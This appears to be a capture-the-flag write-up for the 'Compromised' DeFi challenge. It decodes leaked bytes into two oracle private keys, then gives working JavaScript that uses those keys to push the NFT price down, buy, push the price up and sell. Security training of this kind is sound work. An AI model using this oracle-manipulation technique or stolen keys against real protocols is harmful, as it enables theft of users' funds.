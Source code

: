 # Compromised

1. It is seems obvious that we have to do something with the given snippet, after you convert the bytes to string, and decode it with base64, you will get private keys of two oracle provider.

```javascript
var bytes1 =
  "4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35";
var bytes2 =
  "4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34";

var arrayBytes1 = bytes1.split(" ");
var arrayBytes2 = bytes2.split(" ");

const toString = (bytes) => {
  var result = "";
  for (var i = 0; i < bytes.length; ++i) {
    const byte = bytes[i];
    const text = byte.toString(16);
    result += (byte < 16 ? "%0" : "%") + text;
  }
  return decodeURIComponent(result);
};

// compromised keys
privateKey1 = Buffer.from(toString(arrayBytes1), "base64").toString();
privateKey2 = Buffer.from(toString(arrayBytes2), "base64").toString();

let source1 = new ethers.Wallet(privateKey1, ethers.provider);
let source2 = new ethers.Wallet(privateKey2, ethers.provider);
```

2. Since the NFT price is based on median from providers, and we have two of them, set the price as low as possible, buy the NFT, set it to high, then sell it. Don't forget to set the price back to normal again since the test require you to do so.

```javascript
/** CODE YOUR EXPLOIT HERE */
await this.oracle
  .connect(source1)
  .postPrice("DVNFT", ethers.utils.parseEther("0.0001"));
await this.oracle
  .connect(source2)
  .postPrice("DVNFT", ethers.utils.parseEther("0.0001"));
// buy after the price is changed
var tx = await this.exchange
  .connect(attacker)
  .buyOne({ value: ethers.utils.parseEther("0.0001") });
const rc = await tx.wait();
var tokenId = rc.events[1].args.tokenId.toString();
// change the price again
await this.oracle
  .connect(source1)
  .postPrice("DVNFT", ethers.utils.parseEther("9990.0001"));
await this.oracle
  .connect(source2)
  .postPrice("DVNFT", ethers.utils.parseEther("9990.0001"));
// approve the nft to exchange, sell with high price
await this.nftToken.connect(attacker).approve(this.exchange.address, tokenId);
await this.exchange.connect(attacker).sellOne(tokenId);
// change back to initial price
await this.oracle
  .connect(source1)
  .postPrice("DVNFT", ethers.utils.parseEther("999"));
await this.oracle
  .connect(source2)
  .postPrice("DVNFT", ethers.utils.parseEther("999"));
```
